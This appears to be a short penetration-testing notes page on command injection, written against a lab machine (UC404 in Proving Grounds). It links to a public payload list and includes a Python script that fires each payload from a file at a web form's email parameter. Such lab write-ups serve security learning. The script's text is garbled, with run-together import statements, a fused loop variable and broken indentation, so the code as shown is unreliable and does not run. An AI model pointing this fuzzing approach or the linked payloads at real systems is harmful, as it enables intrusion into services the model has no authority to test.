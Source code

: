 # Command Injection

Here is a list of some common injections

[https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)

You can identify this by using single or double quotes. It might look similar to a SQL injection at first. In this example from UC404 in proving grounds, you can see that when I add a single quote to the url query parameter, the bottom number turns from 1 to 2.

![Untitled](Command%20Injection%20523f96b7f977430b9fe00b21db2713df/Untitled.png)

You can use a python script like this to automate testing out the payloads.

```
#!/usr/bin/env python
importrequestsimportsyss = requests.Session()
url = "http://192.168.250.109/under_construction/forgot.php"
sc_file = sys.argv[1]
# Get website cookie, token ...?
s.get(url)

with open(sc_file, "r", encoding="iso-8859-1")as special_chars:
	sc = special_chars.readlines()
for ssin sc:
            ss = ss.strip()
            payload = {'email':ss}
            r = s.get(url, params=payload)
print(f"Trying payload:{payload}")
print(r.text.splitlines()[71:73])
print()
```

In my case, this payload worked.

![Untitled](Command%20Injection%20523f96b7f977430b9fe00b21db2713df/Untitled%201.png)